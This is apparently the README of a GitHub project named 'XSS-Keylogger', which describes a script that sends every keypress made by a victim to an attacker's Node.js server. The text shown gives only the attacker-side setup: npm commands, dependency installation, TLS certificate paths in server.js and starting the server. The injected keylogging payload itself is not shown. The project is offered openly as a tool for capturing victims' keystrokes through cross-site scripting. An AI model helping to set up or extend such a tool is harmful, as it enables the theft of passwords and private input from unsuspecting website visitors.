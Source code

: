 # XSS-Keylogger
Simple script that sends every keypresses by victim to a simple Node.js app on attacker side

# Usage
**Attacker Side:**

Update the npm package manager globally to the latest version and clear the npm cache, which can help resolve certain installation issues:

        # npm install -g npm@latest
        # npm cache clean --force

Initialize a new npm package in the current directory, creating a package.json file:

        # npm init

Install the dependencies:

        # npm install express body-parser

Define the location of .crt and .key files in [server.js](server.js) file:

        const server = https.createServer({
        key: fs.readFileSync('{**.key file location**}'),
        cert: fs.readFileSync('{**.crt file location**}'),
        }, app);

Run Node.js server:

        # node server.js
